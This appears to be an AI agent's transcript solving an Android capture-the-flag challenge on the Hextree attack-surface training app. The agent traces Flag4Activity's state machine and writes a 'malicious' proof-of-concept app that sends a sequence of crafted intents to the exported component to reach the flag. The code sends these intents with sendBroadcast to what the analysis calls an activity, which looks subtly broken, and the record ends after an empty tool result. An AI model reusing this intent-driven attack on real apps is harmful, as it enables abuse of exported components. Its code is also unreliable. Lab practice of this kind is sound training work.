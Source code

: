 1.  The `stateMachine` method is called with the intent.
2.  The `getCurrentState` method retrieves the current state from `SolvedPreferences`.
3.  The state transitions are based on the intent's action and the current state.
4.  To reach the `success(this)` call and get the flag, the state needs to be `GET_FLAG` and any action needs to be sent.
5.  The state transitions are:
    *   `INIT` + `PREPARE_ACTION` -> `PREPARE`
    *   `PREPARE` + `BUILD_ACTION` -> `BUILD`
    *   `BUILD` + `GET_FLAG_ACTION` -> `GET_FLAG`
    *   `GET_FLAG` + *any* action -> `INIT` + `success(this)`

Therefore, to solve the challenge, we need to send a sequence of intents with the following actions: `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and then any action.

Now, let's construct the malicious Android application to send these intents. I'll create `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.


Function Call: id=None args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Target component\n        String targetPackage = "io.hextree.attacksurface";\n        String targetClass = "io.hextree.attacksurface.activities.Flag4Activity";\n\n        // Create the intents with the required actions\n        Intent prepareIntent = new Intent();\n        prepareIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        prepareIntent.setAction("PREPARE_ACTION");\n\n        Intent buildIntent = new Intent();\n        buildIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        buildIntent.setAction("BUILD_ACTION");\n\n        Intent getFlagIntent = new Intent();\n        getFlagIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        getFlagIntent.setAction("GET_FLAG_ACTION");\n\n        Intent triggerIntent = new Intent();\n        triggerIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        triggerIntent.setAction("TRIGGER_ACTION");\n\n        // Send the intents in sequence\n        sendBroadcast(prepareIntent);\n        Log.i("MaliciousApp", "Sent PREPARE_ACTION");\n        sendBroadcast(buildIntent);\n        Log.i("MaliciousApp", "Sent BUILD_ACTION");\n        sendBroadcast(getFlagIntent);\n        Log.i("MaliciousApp", "Sent GET_FLAG_ACTION");\n        sendBroadcast(triggerIntent);\n        Log.i("MaliciousApp", "Sent TRIGGER_ACTION");\n\n        finish(); // Close the activity after sending the intents\n    }\n}\n', 'file_path': 'MaliciousFlag4PoC.java'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---